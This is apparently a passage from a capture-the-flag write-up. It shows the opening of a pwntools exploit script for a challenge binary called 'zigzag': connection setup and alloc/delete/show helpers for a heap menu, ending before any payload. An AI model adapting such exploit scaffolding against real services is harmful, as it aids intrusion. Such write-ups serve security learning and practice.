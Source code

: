 Final exploit:  
```py  
#!/usr/bin/env python  
# -*- coding: utf-8 -*-

# this exploit was generated via  
# 1) pwntools  
# 2) ctfmate

import os  
import time  
import pwn

# Set up pwntools for the correct architecture  
exe = pwn.context.binary = pwn.ELF('zigzag')  
# pwn.context.terminal = ['tmux', 'new-window']  
pwn.context.delete_corefiles = True  
pwn.context.rename_corefiles = False

host = pwn.args.HOST or '127.0.0.1'  
port = int(pwn.args.PORT or 1337)

def local(argv=[], *a, **kw):  
   '''Execute the target binary locally'''  
   if pwn.args.GDB:  
       return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)  
   else:  
       return pwn.process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):  
   '''Connect to the process on the remote host'''  
   io = pwn.connect(host, port)  
   if pwn.args.GDB:  
       pwn.gdb.attach(io, gdbscript=gdbscript)  
   return io

def start(argv=[], *a, **kw):  
   '''Start the exploit against the target.'''  
   if pwn.args.LOCAL:  
       return local(argv, *a, **kw)  
   else:  
       return remote(argv, *a, **kw)

gdbscript = '''  
source ~/Downloads/pwndbg/gdbinit.py  
'''.format(**locals())

io = None

io = start()

def alloc(idx, size, data):  
   io.sendlineafter(b"> ", b"1")  
   io.sendlineafter(b"Index: ", str(idx).encode())  
   io.sendlineafter(b"Size: ", str(size).encode())  
   io.sendlineafter(b"Data: ", data)

def delete(idx):  
   io.sendlineafter(b"> ", b"2")  
   io.sendlineafter(b"Index: ", str(idx).encode())

def show(idx):  
   io.sendlineafter(b"> ", b"3")  
   io.sendlineafter(b"Index: ", str(idx).encode())
```